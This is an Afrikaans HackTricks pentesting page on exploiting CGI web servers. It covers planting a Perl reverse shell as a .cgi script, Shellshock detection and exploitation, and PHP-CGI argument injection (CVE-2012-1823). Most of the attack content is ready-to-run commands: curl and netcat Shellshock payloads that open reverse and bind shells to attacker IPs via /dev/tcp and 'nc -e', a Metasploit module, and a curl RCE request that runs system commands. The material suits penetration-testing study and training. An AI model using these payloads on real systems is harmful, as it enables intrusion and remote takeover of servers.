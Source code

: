 {% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsieplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PR's in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Verdiep jou kundigheid in **Mobiele Sekuriteit** met 8kSec Akademie. Beheers iOS en Android sekuriteit deur ons self-gebaseerde kursusse en kry gesertifiseer:

{% embed url="https://academy.8ksec.io/" %}


# Inligting

Die **CGI-skripte is perl-skripte**, so, as jy 'n bediener gekompromitteer het wat _**.cgi**_ skripte kan uitvoer, kan jy **'n perl reverse shell op laai** \(`/usr/share/webshells/perl/perl-reverse-shell.pl`\), **die uitbreiding verander** van **.pl** na **.cgi**, **uitvoeringsregte gee** \(`chmod +x`\) en **toegang** tot die reverse shell **van die webblaaier** om dit uit te voer.
Om te toets vir **CGI kwesbaarhede** word dit aanbeveel om `nikto -C all` \(en al die plugins\) te gebruik.

# **ShellShock**

**ShellShock** is 'n **kwesbaarheid** wat die algemeen gebruikte **Bash** opdraglyn-skal in Unix-gebaseerde bedryfstelsels beïnvloed. Dit teiken die vermoë van Bash om opdragte wat deur toepassings oorgedra word, uit te voer. Die kwesbaarheid lê in die manipulasie van **omgewing veranderlikes**, wat dinamiese benoemde waardes is wat beïnvloed hoe prosesse op 'n rekenaar loop. Aanvallers kan dit benut deur **kwaadaardige kode** aan omgewing veranderlikes te heg, wat uitgevoer word wanneer die veranderlike ontvang word. Dit stel aanvallers in staat om die stelsel moontlik te kompromitteer.

Deur hierdie kwesbaarheid te benut kan die **bladsy 'n fout gooi**.

Jy kan hierdie kwesbaarheid **vind** deur te let op dat dit 'n **ou Apache weergawe** en **cgi\_mod** \(met cgi-gids\) gebruik of deur **nikto** te gebruik.

## **Toets**

Meeste toetse is gebaseer op om iets te echo en verwag dat daardie string in die webantwoord teruggestuur word. As jy dink 'n bladsy mag kwesbaar wees, soek vir al die cgi-bladsye en toets hulle.

**Nmap**
```bash
nmap 10.2.1.31 -p 80 --script=http-shellshock --script-args uri=/cgi-bin/admin.cgi
```
## **Curl \(reflected, blind and out-of-band\)**
```bash
# Reflected
curl -H 'User-Agent: () { :; }; echo "VULNERABLE TO SHELLSHOCK"' http://10.1.2.32/cgi-bin/admin.cgi 2>/dev/null| grep 'VULNERABLE'
# Blind with sleep (you could also make a ping or web request to yourself and monitor that oth tcpdump)
curl -H 'User-Agent: () { :; }; /bin/bash -c "sleep 5"' http://10.11.2.12/cgi-bin/admin.cgi
# Out-Of-Band Use Cookie as alternative to User-Agent
curl -H 'Cookie: () { :;}; /bin/bash -i >& /dev/tcp/10.10.10.10/4242 0>&1' http://10.10.10.10/cgi-bin/user.sh
```
[**Shellsocker**](https://github.com/liamim/shellshocker)
```bash
python shellshocker.py http://10.11.1.71/cgi-bin/admin.cgi
```
## Exploit
```bash
#Bind Shell
$ echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc -l -p 9999 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc vulnerable 8
#Reverse shell
$ echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc 192.168.159.1 443 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc vulnerable 80
#Reverse shell using curl
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.11.0.41/80 0>&1' http://10.1.2.11/cgi-bin/admin.cgi
#Reverse shell using metasploit
> use multi/http/apache_mod_cgi_bash_env_exec
> set targeturi /cgi-bin/admin.cgi
> set rhosts 10.1.2.11
> run
```
# **Proxy \(MitM na Web bediener versoeke\)**

CGI skep 'n omgewing veranderlike vir elke kop in die http versoek. Byvoorbeeld: "host:web.com" word geskep as "HTTP\_HOST"="web.com"

Aangesien die HTTP\_PROXY veranderlike deur die web bediener gebruik kan word. Probeer om 'n **kop** te stuur wat bevat: "**Proxy: &lt;IP\_aanvaller&gt;:&lt;PORT&gt;**" en as die bediener enige versoek tydens die sessie uitvoer. Jy sal in staat wees om elke versoek wat deur die bediener gemaak word, te vang.

# Ou PHP + CGI = RCE \(CVE-2012-1823, CVE-2012-2311\)

Basies, as cgi aktief is en php "oud" \(&lt;5.3.12 / &lt; 5.4.2\) kan jy kode uitvoer.
Om hierdie kwesbaarheid te benut, moet jy toegang verkry tot 'n PHP-lêer van die web bediener sonder om parameters te stuur \(spesifiek sonder om die karakter "=" te stuur\).
Dan, om hierdie kwesbaarheid te toets, kan jy byvoorbeeld toegang verkry tot `/index.php?-s` \(let op die `-s`\) en **die bronnkode van die toepassing sal in die antwoord verskyn**.

Dan, om **RCE** te verkry, kan jy hierdie spesiale navraag stuur: `/?-d allow_url_include=1 -d auto_prepend_file=php://input` en die **PHP kode** wat in die **liggaam van die versoek uitgevoer moet word**.
Voorbeeld:**
```bash
curl -i --data-binary "<?php system(\"cat /flag.txt \") ?>" "http://jh2i.com:50008/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input"
```
**Meer inligting oor die kwesbaarheid en moontlike eksploit:** [**https://www.zero-day.cz/database/337/**](https://www.zero-day.cz/database/337/)**,** [**cve-2012-1823**](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2012-1823)**,** [**cve-2012-2311**](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2012-2311)**,** [**CTF Skryweksample**](https://github.com/W3rni0/HacktivityCon_CTF_2020#gi-joe)**.**

<figure><img src="/.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Verdiep jou kundigheid in **Mobiele Sekuriteit** met 8kSec Akademie. Meester iOS en Android sekuriteit deur ons self-gebaseerde kursusse en kry gesertifiseer:

{% embed url="https://academy.8ksec.io/" %}

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsieplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
